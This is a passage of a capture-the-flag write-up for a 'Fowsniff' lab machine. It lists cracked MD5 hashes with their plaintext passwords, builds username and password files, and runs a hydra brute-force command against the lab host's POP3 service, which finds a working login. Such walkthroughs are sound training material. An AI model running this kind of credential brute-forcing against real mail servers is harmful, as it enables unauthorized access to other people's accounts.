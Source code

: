 which cracked in crackstation correspond to:


```
8a28a94a588a95b80163709ab4313aa4:mailcall
ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
1dc352435fecca338acfd4be10984009:apples01
19f5af754c31f1e2651edde9250d69bb:skyler22
90dc16d47114aa13671c697fd506cf26:scoobydoo2
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
4d6e42f56e127803285a0a7649b5ab11:orlando12
f7fd98d380735e859f8b2ffbbede5a7e:07011972
```
however `stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd`  could not be cracked.

<br />

#### 3. Accessing machine via POP3

Firstly, we should create `users.txt` with all found usernames:

```
cat users.txt 
mauer
mustikka
tegel
baksteen
seina
stone
mursten
parede
sciana
```

and also list of corresponding hashes `pass.txt`

```
cat pass.txt      
mailcall
bilbo101
apples01
skyler22
scoobydoo2
carp4ever
orlando12
07011972
```

Secondly, I use `hydra` contrary to metasploit recommended in challenge:

`hydra -L users.txt -P pass.txt 10.10.211.152 pop3`

which finds a working pair `seina:scoobydoo2`

<br />

Another step is to access server using netcat and pop3 protocol. 

